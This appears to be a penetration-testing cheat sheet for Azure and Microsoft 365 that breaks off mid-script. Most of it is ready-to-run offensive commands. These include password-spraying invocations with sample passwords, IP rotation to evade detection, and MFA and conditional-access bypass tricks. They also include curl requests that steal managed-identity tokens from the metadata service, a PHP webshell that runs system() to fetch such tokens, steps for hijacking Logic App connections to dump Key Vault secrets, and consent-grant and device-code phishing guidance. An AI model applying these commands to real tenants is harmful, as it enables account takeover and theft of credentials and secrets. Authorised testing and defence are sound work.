


# Azure Pentest : Tools and Techniques

MITRE Att&ck : Cloud Matrix  
https://attack.mitre.org/matrices/enterprise/cloud/


### Recon / Discovery
```
host -a client.com
```

```
nslookup x.x.x.x
```

```
nmap -Pn -p- -sV -vv -A -sS client.com
```

### Misc online tools
- Shodan (shodan.io)
- Censys (censys.io)
- Threat Crowd (https://www.threatcrowd.org)

### Azure cloud and kubernetes Matrix
- https://www.microsoft.com/en-us/security/blog/2020/04/02/attack-matrix-kubernetes/
- https://microsoft.github.io/Azure-Threat-Research-Matrix/

### DNS Records
Leverage DNS records (N, MX, NS, SPF, TXT, CNAME, A) to determine cloud providers and services of a targeted domain/organization.

- https://github.com/darkoperator/dnsrecon
- https://github.com/lanmaster53/recon-ng
- https://github.com/aboul3la/Sublist3r

> python3 dnsrecon.py -d company.com -D subdomains-top1mil.txt -t brt  

### Azure Netblocks
##### Public
https://www.microsoft.com/en-us/download/details.aspx?id=56519

##### US Gov
https://www.microsoft.com/en-us/download/details.aspx?id=57063

##### Germany
https://www.microsoft.com/en-us/download/details.aspx?id=57064

##### China
https://www.microsoft.com/en-us/download/details.aspx?id=57062

##### Cloud IP Ranges (NCCGroup)
- https://github.com/nccgroup/cloud_ip_ranges

```
python3 cloud_ip_ranges.py 52.4.0.0
```

### Determin identity federation servers
- ADFS
- AUTH
- Okta
- ping
- SSO
- STS
- Oauth
- OpenId
- SAML
- WS

### Getting Tenant Id for specific domain
- https://enterpriseregistration.windows.net/company.com/enrollmentserver/contract?api-version=1.4

### Leak credentials
Cloud credentials in code and text repositories:  
- federations service private certificates
- storage account keys/sas	
- Azure publish setting file certificates

##### Git / Repo secret parsers
Bitbucket, GitLab, Github, Gerrit, GitBlit, Azure Repo, Docker Hub, Git, SVN...

- gitleaks (https://github.com/zricethezav/gitleaks)
- trufflehog (https://github.com/trufflesecurity/truffleHog)
- git-secrets (https://github.com/awslabs/git-secrets)
- shhgit (https://github.com/eth0izzle/shhgit)
- gitrob (https://github.com/michenriksen/gitrob)

##### Git / Repos (post-compromise)
--> Find internal repos  
- Less protected and greater chance to find secrets or leaked access keys

1. Portscan internal web services (80,443,etc)
2. EyeWitness to screenshot each service
3. **Additional**: 
	- Query AD for all hostnames
	- Look for subdomains git, code, repos, bitbucket, gitlab

### SharpCloud
SharpCloud is a simple C# utility for checking for the existence of credential files related to Amazon Web Services, Microsoft Azure, and Google Compute.

##### Searches all user profiles for credentials related to Microsoft Azure.
```
SharpCloud.exe azure
```

- https://github.com/chrismaddalena/SharpCloud

### Certificate Transparency

Identify cloud services, assets and nameserver records via certificate transparency logs and DNS records.  

--> https://crt.sh/   
--> https://censys.io/certificates   
--> https://ui.ctsearch.entrust.com/ui/ctsearchui  

### Specific Google Dorks
##### Azure SQL Databases
"database.windows.net" site:pastebin.com

##### Web.config file 
```
site:github.com web.config "StorageConnectionString" "DefaultEndpointsProtocol"
```

### ADFS IDP enumeration

In case organization use ADFS for authentication against office365/Azure we can try to access IDP initiate signon page.  
IDP Initiated Signon page displays all the applications integrated with ADFS.  

- We call these applications as Relay Parties or Service providers in ADFS Terminology. 
- Microsoft recommends disabling this endpoint.

```
https://sts.company.com/adfs/ls/idpinitiatedsignon.aspx
```

### User enumeration
#### Microsoft 365 endpoint
- https://login.microsoftonline.com/company.com/v2.0/.well-known/openid-configuration
- https://login.microsoftonline.com/getuserrealm.srf?login=username@company.com&xml=1
	- This will give back the tenant ID

#### Azure endpoint
User enumeration on Azure can be performed at :  
- https://login.microsoft.com/common/oauth2/token
--> Endpoint will tell if a user exist or not  

Tool (PowerShell) : https://github.com/dafthack/MSOLSpray  

--> Check on Google and other  browser for tenant-id or subscription-id, it could lead to github repo for example containing other potential secrets.

#### OneDrive enumeration
Enumerate users via OneDrive endpoint.  
- https://github.com/nyxgeek/onedrive_user_enum  
- https://www.trustedsec.com/blog/achieving-passive-user-enumeration-with-onedrive/
OneDrive users have a file share URL with a known location:  
--> https://company-my.sharepoint.com/personal/john_doe_company_com/_layouts/15/onedrive.aspx  

```
python3 onedrive_enum.py -U users.txt -d company.com
```

- **Note**: Users that are valid but who have not yet signed into OneDrive will return a 404 not found.

- **Note**: Does not attempt a login and is much more passive, and should be undetectable to the target org. Microsoft will see the hits, but the target org won't

#### AADInternals
- https://github.com/Gerenios/AADInternals
- https://o365blog.com/aadinternals/

AADInternals is PowerShell module for administering Azure AD and Office 365  
```
PS C:\ > Install-Module AADInternals
```

##### Get tenant name, authentication, brand name (usually same as directory name) and domain name
```
PS C:\ > Get-AADIntLoginInformation -UserName jdoe@company.com
```

##### Get Tenant Domains
```
PS C:\ > Get-AADIntTenantDomains -Domain company.com
```

##### Get All information
```
PS C:\ > Invoke-AADIntReconAsOutsider -DomainName company.com
```

#### MicroBurst (enumeration modules)
##### Enumerate used services

| Domain	| Associated Service |
|-----------|--------------------|
| azurewebsites.net | App Services |
| scm.azurewebsites.net | App Services – Management |
| p.azurewebsites.net | App Services |
| cloudapp.net | App Services |
| file.core.windows.net | Storage Accounts-Files |
| blob.core.windows.net | Storage Accounts-Blobs |
| queue.core.windows.net | Storage Accounts-Queues |
| table.core.windows.net | Storage Accounts-Tables |
| redis.cache.windows.net | Databases-Redis |
| documents.azure.com | Databases-Cosmos DB |
| database.windows.net | Databases-MSSQL |
| vault.azure.net	Key | Vaults |
| onmicrosoft.com | Microsoft Hosted Domain |
| mail.protection.outlook.com | Email |
| sharepoint.com | SharePoint |
| azureedge.net | CDN |
| search.windows.net | Search Appliance |
| azure-api.net | API Services |
| atp.azure.com | Advanced Threat Protection |

- https://github.com/NetSPI/MicroBurst  
--> Edit the permutations.txt to add permutations such as career, hr, users, file and backup  

```
PS C:\ > Import-Module MicroBurst.psm1 -Verbose
PS C:\ > Invoke-EnumerateAzureSubDomains -Base company -Verbose
```

##### Enumerate Azureblobs
--> Specific module for blobs enumeration : *Invoke-EnumerateAzureBlobs*  
- Brute forces storage account names, containers and files
- Uses permutations to discover storage accounts

```
PS C:\ > Import-Module .\MicroBurst.psm1
PS C:\ > Invoke-EnumerateAzureBlobs -Base company.com -OutputFile azureblobs.txt
```

#### Data in public blobs
- Containers =/= Blobs  

Container organizes a set o blobs. Similar to directory in a file system.  

- Predictable URLs at **core.windows.net**
	- storage-account-name.blob.core.windows.net
	- storage-account-name.file.core.windows.net
	- storage-account-name.dfs.core.windows.net
	- storage-account-name.table.core.windows.net
	- storage-account-name.queue.core.windows.net
	- storage-account-name.database.windows.net

Access Policy in Blob/Containers:  
- *Blob* : Anyone can anonymously read blobs, but can't list the blobs in the container.
- *Container* ; Allows for listing containers and blobs.  

Discovery using **dnscan.py**: 

```
python dnscan.py -d blob.core.windows.net -w subdomains-100.txt  
```

--> This could be done using other predictable URLS at **core.windows.net**

#### Cloud_Enum
Cloud_enum tool permits to enumerate Azure Storage accounts, blob containers, hosted DBs, VM and WebAps.  

- https://github.com/initstring/cloud_enum 
```
python3 cloud_enum.py --disable-aws --disable-gcp -k companyName
```

#### CloudBrute
Brute forcing tool to find Microsoft Storage or Apps  

- https://github.com/0xsha/CloudBrute
```
./CloudBrute -d company.com -k company -t 80 -T 10 -c microsoft -m storage -w ./data/storage_small.txt
```

#### Listing azure storage
In case container is set to *container* access policy and allows for listing.  

We can list blob within a known container using the following API endpoint:
- https://STORAGENAME.blob.core.windows.net/CONTAINERNAME?restype=container&comp=list

--> POTENTIAL PROJECT DEV PYTHON TO REQUEST AZURE API FOR BLOB, CONTAINER... ONCE we have a valid storage for exemple company.blob.core.windows.net  
- https://docs.microsoft.com/en-us/rest/api/storageservices/list-containers2

#### GreyHatWarfare
Finding Azure resources such as blob, files, tables storage: 
- https://buckets.grayhatwarfare.com/

#### Dorks
Website hosted on Azure:
```
site:azurewebsites.net
```

Blob storage containing credentials
```
site:*.blob.core.windows.net ext:xls | ext:xlsx (login | password | username)
```

https://github.com/securethelogs/ZorkAzure

#### CloudScraper (modified version)
- https://github.com/lutzenfried/CloudScraper

-> (Modified version including additionnal CSP interesting endpoints)

- bc.googleusercontent.com (GCE instances)
- appspot.com (Google App Engine)
- run.app (Google Cloud run)
- firebaseio.com (Google Cloud Firestore - NoSQL)
- cloudfunctions.net (Google Cloud Functions)
- azurewebsites.net (Azure websites)
- cloudapp.net (Azure Cloud App)
- cloudapp.azure.com (Azure Cloud App)

CloudScraper is a Tool to spider and scrape targets in search of cloud resources. Plug in a URL and it will spider and search the source of spidered pages.

```
python3 CloudScraper.py -v -p 4 -d 5 -u https://www.company.com
```

#### Azure subdomain takeovers
- https://godiego.co/posts/STO/

1. Azure CloudApp: cloudapp.net
- Check if CNAME for company.com point to **cloudapp.net** 
	+ site:cloudapp.net
	+ dig company.com ANY +noall +answer
- Go to https://portal.azure.com/?quickstart=True#create/Microsoft.CloudService
- Register unclaimed domain which CNAME is pointing to  


2. Azure Websites : azurewebsites.net
- Check CNAME with dig pointing to azurewebsites.net
 	+ site:azurewebsites.net
	+ dig company.com ANY +noall +answer
- Go to https://portal.azure.com/#create/Microsoft.Website
- Register unclaimed domain which CNAME is pointing to
- Register domain on the Custom domains section of the dashboard

3. Azure VM : cloudapp.azure.com
- Check CNAME with dig pointing to *.region.cloudapp.azure.com
	+ site:cloudapp.azure.com
	+ dig company.com ANY +noall +answer
- Registering a new VM in the same region with size Standard_B1ls (cheapest) with 80 and 443 open
- Go to Configuration and set the domain name which CNAME is pointing

#### Validate email address
- https://github.com/LMGsec/o365creeper	
```
python2.7 o365creeper.py -e johndoe@company.com  
```

--> No trace/logs in Azure AD logs.  

- https://github.com/lutzenfried/OffensiveCloud/blob/main/Azure/Tools/azurec.sh  
```
./azurec.sh company.com /tmp/emails.txt
```

#### Password spraying
- https://github.com/SecurityRiskAdvisors/msspray
- https://github.com/optiv/Go365
Password spray tool for Azure services against multiple endpoint.

Spray against https://graph.windows.net, stopping on first successful login.
```
python3 msspray.py spray users.txt Spring2020 1 stop
```

- https://github.com/dafthack/MSOLSpray

Password spraying tool for Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled. (Use updated version Nov 2021)  

``` 
PS C:\ > Import-Module MSOLSpray.ps1  
PS C:\ > Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
```

- https://github.com/MarkoH17/Spray365  
Spray365 is a password spraying tool that identifies valid credentials for Microsoft accounts (Office 365 / Azure AD).  
Spray365 enables passwords to be sprayed from an "execution plan".  

Password spraying using credmaster and AWS API gateway as a pass-through HTTP proxy
```
CredMaster$ python3 credmaster.py --plugin o365enum --access_key XXXXXXX --secret_access_key XXXXXXX -u emailsMcMillan.txt -a useragents.txt
```

--> IP rotation using AWS API gateway: https://bigb0sss.github.io/posts/redteam-rotate-ip-aws-gateway/

##### Generating execution plan  
```
$ python3 spray365.py -g <path_for_saved_execution_plan> -d <domain_name> -u <file_containing_usernames> -pf <file_containing_passwords>
```  

##### Spraying an execution plan  
```
$ python3 spray365.py -s <path_to_execution_plan>
```  

### Bypassing conditional access
- https://danielchronlund.com/2022/01/07/the-attackers-guide-to-azure-ad-conditional-access/

- Change user agent to Android/Iphone user agent.
- Change location, to specific client location. (US, Canada based IP)
- Legacy Auth (EAS, EWS, Outlook for Mac)  
- Use customer Wireless Guest network (trusted IP addresses)

--> The [Roadrecon](https://github.com/dirkjanm/ROADtools) tool (*dirkjanm*) is capable of gathering and parsing Condtional Access Policies (Azure AD account required.)  
```
PS C:\ > roadrecon plugin policies  
```

- https://www.trustedsec.com/blog/common-conditional-access-misconfigurations-and-bypasses-in-azure/
- https://misconfig.io/bypass-the-cloud-azure-ad-condtional-access-scenario/

### Bypassing MFA
**Use Guest wireless network**: MFA users don’t need to accept an MFA request each time they log in to a cloud workload if they are working from a trusted location.  

The below technique is not working anymore but can still be tested in case some conditional access policy allow authentication from PowerShell without MFA.
- Use directly powershell AZ module
```
$credential = Get-Credential  
Connect-AzAccount -Credential $credential
```
 
- PRT Attack  

**Type 1**: Pass the cookie. By stealing a newly attacker generated PRT cookie from the victim’s computer and use this PRT cookie to fetch access token from Azure AD  
 
**Type 2**: Pass the PRT. By stealing the PRT and session/derived key from LSASS on victim’s computer and generate a PRT cookie on attacker computer. Use this cookie to fetch an access token from Azure AD.  

- Connect from internal network IP range  
The **Trusted IPs** feature of Azure AD Multi-Factor Authentication bypasses multi-factor authentication prompts for users who sign in from a defined IP address range.

- Legacy Auth (EAS, EWS, Outlook for Mac)  
--> (MFASweep tool)  
--> https://github.com/dafthack/MFASweep  

- https://www.blackhillsinfosec.com/exploiting-mfa-inconsistencies-on-microsoft-services/ 
 
- https://www.slashadmin.co.uk/bypass-mfa-for-azure-runbooks/

### Team Filtration - Attacking O365 AAD Accounts
TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 AAD accounts.  

- https://github.com/Flangvik/TeamFiltration
- https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration

<br/>

## Initial access Attacks

### EvilnGinx / roadTools / TeamFiltration / Bobber
- https://trustedsec.com/blog/the-triforce-of-initial-access

### Instance metadata service
- A metadata endpoint was created and hoster on a non-routable IP address at **169.254.169.254**.

- Can contain access/secret keys
- Only reachable from localhost

--> Exploitation through Server compromise or SSRF vulnerabilities  
- http://169.254.169.254/metadata
- GET 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' HTTP/1.1 Metadata: true

```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2020-09-01"
```


##### Targeting Azure Resource Manager
```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

##### Targeting Azure Key Vault
```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net"
```

--> Then Token can be used directly with **Azure REST API**  

#### Enterprise Apps
#### App Services
> Azure App Service is an HTTP-based service for hosting web applications, REST APIs, and mobile back ends.

App Service contains the following Azure web resources:  
- Web App
- Function App
- Mobile Apps

- Linux environnement
- Windows environnement

**Languages**: .NET, .NET Core, Java, Python, Ruby, NodeJS, PHP  

--> App runs inside a sandbox with different isolation level depending on App Service Plan and tarification:  

- Apps in Free and Shared tiers run on shared VMs
- Apps in Standard and Premium tiers run on dedicated VMs

Abuse App Service : vulnerabilities in the code deployed are abusable using classic web application vulnerabilities or business logic flaw.  

--> Command Execution within an app service will result in low-privilege execution context based on the worker process permissions.  
--> In case the app service use **Managed Identity**, it would be possible to impersonate and abuse this managed identity and potentially access other Azure resources.  

- If the app service contains environment variables **IDENTITY_HEADER**
and **IDENTITY_ENDPOINT**, it has a managed identity.

WebShell PHP 1: Accessing environment variables
```
http://company.azurewebsites.net/uploads/webshell.php?cmd=env  
```

> IDENTITY_HEADER=b53d3a04-f0f5-4859-984e-36ab406f80fe
> IDENTITY_ENDPOINT=http://169.254.129.2:8081/msi/token

WebShell PHP 2: Accessing access token for the managed identity
```
<?php

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>


{"access_token":"eyJ0csFS534CJhbGciOiJSFDZAD","expires_on":"11/02/2020 22:10:03 +00:00","resource":"https://management.azure.com/","token_type":"Bearer","client_id":"064423R237-dzef-45gt-25ko-dzeji56j32"}
```

You can also retrieve token for Graph API
```
curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER"

```

Retrieved access token can be used with AZ module
```
$token = eyJ0csFS534CJhbGciOiJSFDZAD
Connect-AzAccount -AccessToken $token -AccountId 064423R237-dzef-45gt-25ko-dzeji56j32
```

--> Using Managed Identity we cannot use **Get-AZRoleAssignment** for example, we need to use APIs such as Azure Resource Manager or graph.

List all resources accessible for the managed identity using management API
```
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-
8c11-d52d5d388768/resources?api-version=2020-10-01'
```

OR

Define the URI for Virtual Machine permission for the managed identity using management API
```
$URI = 'https://management.azure.com/subscriptions/frgr565frjzl4l4/resourceGroups/Production/providers/Microsoft.Compute/virtualMachines/vmName/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'
```

OR

Define the URI for keyvaults permission check using management API
```
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.KeyVault/vaults/ResearchKeyVault/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'
```

Request permission
```
$RequestParams = @{
    Method = 'GET'
    Uri = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod @RequestParams).value

actions                                               notActions
-------                                               ----------
{*/read}                                              {}
{Microsoft.Compute/virtualMachines/runCommand/action} {}
```

Use Graph API to lit all Enterprise Applications
```
$Token = 'eyJ0eX..'
$URI = ' https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
    Method = 'GET'
    Uri = $URI
    Headers = @{
        'Authorization' = "Bearer $Token"
    }
}
(Invoke-RestMethod @RequestParams).value
```

#### Logic Apps
- https://www.netspi.com/blog/technical/cloud-penetration-testing/illogical-apps-exploring-exploiting-azure-logic-apps/

In order to perform actions related to the defined workflow a Logic App would need to be authenticated and authorized to the Azure service.  

##### Reader Account permission
Most Logic App actions provide input parameters for users to provide arguments, like a URL or a file name. In some cases, these inputs include authentication details.  

**Ex**: HTTP Request action  
--> For something like the basic authentication or raw authentication headers, you may be able to gain access to an externally facing web application and escalate from there.  
```
$allLogicApps = Get-AzLogicApp
foreach($app in $allLogicApps){
    $appName = $app.Name.ToString()
    $actions = ($app.Definition.ToString() | ConvertFrom-Json | select actions).actions
    #App definition is returned as a Newtonsoft object, have to manipulate it a bit to get all of the desired output
    $noteProperties = Get-Member -InputObject $actions | Where-Object {$_.MemberType -eq "NoteProperty"}
    foreach($note in $noteProperties){
        $noteName = $note.Name
        $inputs = ($app.Definition.ToString() | ConvertFrom-Json | Select actions).actions.$noteName.inputs    
    }
    $params = $app.Definition.parameters
}
```

Also important to check as Reader are :  
- Run History (previous runs of the Logic App)
- Versions tab (history of all previous definitions for the Logic App)

##### Contributor Account permission
Another way to provide Logic Apps with authentication is by using API Connections. Each API connection will pertain to a certain Azure service such as Blob Storage or Key Vaults, or a third-party service like SendGrid.  

1. An administrator creates the Encrypt-My-Data-Logic-App and gives it an API connection to the Totally-Secure-Key-Vault
2. A Logic App Contributor creates a new Logic App with that API connection 
3. The new Logic App will list all secrets in the Key Vault and dump them out
4. The attacker fetches the dumped secrets from the Logic App output and then deletes the app

**API hijacking in Practice**  
1. In your own Azure tenant, create a Logic App (LA) replicating the functionality that you want to achieve and place the definition into a file. (This step is manual)
2. Get the details of the target API Connection
3. Plug the connection details and the manually created definition into a generic LA template
4. Create a new LA with your malicious definition
5. Retrieve the callback URL for the LA and trigger it to run
6. Retrieve any output or errors
7. Delete the LA

--> Automation: https://github.com/NetSPI/MicroBurst/blob/master/Misc/LogicApps/Invoke-APIConnectionHijack.ps1  
--> JSON keyvault payload : https://github.com/NetSPI/MicroBurst/blob/master/Misc/LogicApps/logic-app-keyvault-dump-payload.json

#### Function Apps
#### Unsecured storage

#### Command injection (web app)
Multple vulnerabilities scenarios possibles:  
- An uploaded web shell
- Unintended CMD injection via an application issue
- Intended CMD Injection through application functionality

1. Upload webshell to insecure webapp
2. If command execution is possible, execute **env** command
	- Check for : *IDENTITY_HEADER* and *IDENTITY_ENDPOINT* environment variables
3. Get access token from managed identity using another webshell

- https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/

##### Exploiting Service Principal for managed identity
--> Check if the service principal for the managed identity of the compromised application has any interesting permissions on other Azure resources.  

You can use Add-AzADAppSecret.ps1 which try to add a secret to any enterprise application. If it success, this means the current Service Principal has permission over this Enterpise Application.

```
PS C:\> . .\Add-AzADAppSecret.ps1
PS C:\> Add-AzADAppSecret -GraphToken $graph -Verbose
```

#### Phishing
#### Consent Grant Attacks (365-Stealer)
--> `Starting in November 2020, end-users will no longer be able to grant consent to most newly registered multi-tenant apps without verified publishers if risk-based step-up consent is enabled. This will apply to apps that are registered after November 8th 2020, use OAuth2.0 to request permissions beyond basic sign-in and read user profile, and request consent from users in different tenants than the one the app is registered in. A warning will be displayed on the consent screen informing users that these apps are risky and are from unverified publishers.`  

In an illicit consent grant attack, the attacker creates an Azure-registered application that requests access to data such as contact information, email, or documents. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to.  


--> One of the best Article on the subject, one of the very few to underline the limitation that implemented by Microsoft: https://www.riskinsight-wavestone.com/en/2023/03/illicit-consent-grant-attacks-targeting-azure-and-office-365-still-a-threat/

--> **Tool** : 
- https://github.com/AlteredSecurity/365-Stealer.git  
- https://github.com/mdsecactivebreach/o365-attack-toolkit

- https://www.alteredsecurity.com/post/introduction-to-365-stealer
- https://www.youtube.com/watch?v=51FSvndgddk&list=WL
- https://positivethinking.tech/insights/what-is-an-illicit-consent-grant-attack-in-office-365/
- https://www.proofpoint.com/us/blog/threat-insight/ta2552-uses-oauth-access-token-phishing-exploit-read-only-risks
- https://www.mdsec.co.uk/2019/07/introducing-the-office-365-attack-toolkit/
- https://www.cloud-architekt.net/detection-and-mitigation-consent-grant-attacks-azuread/
- https://redblueteam.wordpress.com/2021/04/12/microsoft-office-365-oauth-phishing-demo/

**Respond**:  
- https://docs.microsoft.com/en-us/microsoft-365/security/office-365-security/detect-and-remediate-illicit-consent-grants?view=o365-worldwide
- https://blog.thoughtstuff.co.uk/2020/11/end-users-can-no-longer-grant-consent-to-unverified-multi-tenant-apps-what-this-means-for-you/?fbclid=IwAR3PAwBKWFGcW04Vfq6NOMta7tMG0a4F-9T_AAl8nrnqdiZUgsjgbmpzBWw
- https://docs.microsoft.com/en-us/azure/active-directory/develop/publisher-verification-overview#benefits
- https://docs.microsoft.com/en-us/azure/active-directory/manage-apps/configure-user-consent?tabs=azure-portal#risk-based-step-up-consent
- https://stackoverflow.com/questions/66387268/microsoft-multi-tenant-app-as-an-individual-developer-azure-active-directory

#### Device Code Phish
- https://www.blackhillsinfosec.com/dynamic-device-code-phishing/
- https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html
- https://www.youtube.com/watch?v=4J4RT4oMYdA

Practical Considerations:
- Short expiration of user/device codes (15min)
  - Smishing should be consider (more direct interaction)
  - Incorporate hosted websites (Generate codes dynamically)
  - Use images for user code

<br/>

## Authenticated enumeration



### Cloud resources enumeration
- https://github.com/NotSoSecure/cloud-service-enum

### Refresh Token Usage
Refresh Token can be used to request new access token using AADInternals.
```
$acces_token=Get-AADIntAccessTokenWithRefreshToken -ClientId "TENANTID" -Resource "https://graph.windows.net" -TenantId "DOMAIN.COM" -RefreshToken $refreshtoken
Connect-AzureAD -AadAccessToken $at -AccountId jdoe@domain.com -Domain domain.com
```

### Blob Hunter
BlobHunter helps you identify Azure blob storage containers which store files that are publicly available to anyone with an internet connection.  

BlobHunter needs the followings :  
- Azure user with one of the following built-in roles:
- 	Owner
- 	Contributor
- 	Storage Account Contributor

Or any Azure user with a role that allows to perform the following Azure actions:  

> Microsoft.Resources/subscriptions/read  
> Microsoft.Resources/subscriptions/resourceGroups/read  
> Microsoft.Storage/storageAccounts/read  
> Microsoft.Storage/storageAccounts/listkeys/action  
> Microsoft.Storage/storageAccounts/blobServices/containers/read  
> Microsoft.Storage/storageAccounts/blobServices/containers/blobs/read

```
python3 BlobHunter.py
```

- python3 BlobHunter.py

### Get array of users / roles (Azure AD module)

```
$roleUsers = @() 
$roles=Get-AzureADDirectoryRole
 
ForEach($role in $roles) {
  $users=Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId
  ForEach($user in $users) {
    write-host $role.DisplayName,$user.DisplayName
    $obj = New-Object PSCustomObject
    $obj | Add-Member -type NoteProperty -name RoleName -value ""
    $obj | Add-Member -type NoteProperty -name UserDisplayName -value ""
    $obj | Add-Member -type NoteProperty -name IsAdSynced -value false
    $obj.RoleName=$role.DisplayName
    $obj.UserDisplayName=$user.DisplayName
    $obj.IsAdSynced=$user.DirSyncEnabled -eq $true
    $roleUsers+=$obj
  }
}
$roleUsers
```

### Authenticated enumeration repo
- https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md

Once an account is compromised we can try to perform some reconnaissance.

- Access portal.azure.com and go to Azure Active Directory to get list of all group/users
	- O365 Global Address List has this info also
- If access is locked, try PowerShell cmdlets, likely to work
	+ Compagny wide setting locking down the entire org from viewing Azure info via cmd line:
	> Set-MsolCompanySettings -UsersPermissiontoReadOtherUsersEnabled $false  
	
### Storage explorer (Gui tool)
Once credentials are recovered we can try to use them to explore Azure storage account using Storage Explorer tool.  

- https://azure.microsoft.com/en-us/features/storage-explorer/
	
### Azure CLI/PowerShell modules
It is also possible to use multiple cli modules for authenticated and unauthenticated enumeration.  

- https://github.com/lutzenfried/OffensiveCloud/blob/main/Azure/Azure%20Command%20Line%20CheatSheet.md

### Shadow Admin - Privileged users

AzureStealth will help you to identify over privileged user and shadow admin within your Azure environment.  

--> AzureStealth needs only Read-Only permissions over the scanned Azure Directory (Tenant) and Subscription.  

```
PS C:\> Import-Module .\SkyArk.ps1 -force  
PS C:\> Start-AzureStealth
```

- https://github.com/cyberark/SkyArk

### Enumeration using B2B guest account
- https://github.com/DanielChronlund/DCToolbox
- https://helloitsliam.com/2021/11/18/azure-active-directory-account-enumeration/

--> Function : **Get-DCAzureADUsersAndGroupsAsGuest**  

Lets a guest user enumerate users and security groups/teams when 'Guest user access restrictions' in Azure AD is set to the default configuration.

```
PC C:\> import-module .\DCToolbox.psm1  
PS C:\> Connect-AzureAD -TenantId "87234584-8633-43deb-b294-b383c385dd5"
```  

### o365 enumeration
Enumeration tool using valid credentials for O365 and AzureAD  

- https://github.com/nyxgeek/o365recon

--> Require PowerShell modules **MSOnline** and **AzureAD**.  

```
PS C:\> .\365recon.ps1 -azure
```  

### Enumerate O365 Groups
Enumerate Microsoft 365 Groups in a tenant with their metadata.  

```
python3 all_groups.py -u chrisb@company.com -p pass123
```  

### 365 Inspect
- https://github.com/soteria-security/365Inspect  

PowerShell script that automates the security assessment of Microsoft Office 365 environments.  

```
PS C:\> .\365Inspect.ps1 -OrgName mycompany -OutPath ..\365_report -Auth CMDLINE -Username "first.last@mycompany.com" -Password "Password123"
```  

### Get-MsolRolesAndMembers
Retrieve the list of current roles and associated role members in an Office 365 Tenant.  

- https://gist.github.com/ciphertxt/2036e614edf4bf920796059017fbbc3d  

```
Import-Module MSOline -EA 0

Connect-MsolService -Credential (Get-Credential)

$admins=@()

$roles = Get-MsolRole 

foreach ($role in $roles) {
